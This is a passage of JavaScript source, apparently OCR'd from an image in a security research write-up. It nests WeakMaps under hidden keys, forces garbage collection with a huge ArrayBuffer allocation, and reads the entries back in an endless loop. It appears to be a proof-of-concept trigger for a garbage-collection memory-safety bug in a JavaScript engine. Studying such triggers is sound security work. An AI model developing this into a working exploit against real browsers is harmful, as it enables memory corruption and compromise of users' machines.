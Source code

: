 ```JavaScript
  let prevMap = map;
  let prevKey = initKey;
  for (let i = 0; i < level; i++) {
    let thisMap = prevMap.get(prevKey);
    let thisKey = thisMap.get(prevKey);
    prevMap = thisMap;
    prevKey = thisKey;
    if (i == level - 1) {
      return thisKey;
    }
  }
}

function setUpWeakMap(map) {
  let hk = hideWeakMap(map, level, initKey);
  let hiddenMap = map.get(hk);
  let map7 = new WeakMap();
  let map8 = new WeakMap();
  let k5 = {k5 : 1};
  let map5 = new WeakMap();
  let k7 = {k7 : 1};
  let k9 = {k9 : 1};
  let k8 = {k8 : 1};
  let v9 = {};
  map.set(k7, map7);
  map.set(k9, v9);
  hiddenMap.set(k5, map5);
  hiddenMap.set(hk, k5);
  map5.set(hk, k7);
  map7.set(k8, map8);
  map7.set(k7, k8);
  map8.set(k8,k9);
  
}

function main() {
    setUpWeakMap(map1);

    new ArrayBuffer(0x7fe00000);
    let hiddenKey = getHiddenKey(map1, level, initKey);
    let hiddenMap = map1.get(hiddenKey);
    let k7 = hiddenMap.get(hiddenMap.get(hiddenKey)).get(hiddenKey);
    let k8 = map1.get(k7).get(k7);
    let map8 = map1.get(k7).get(k8);

    console.log(map1.get(map8.get(k8)));
}

while (true) {
  try {
    main();
  } catch (err) {}
}
```
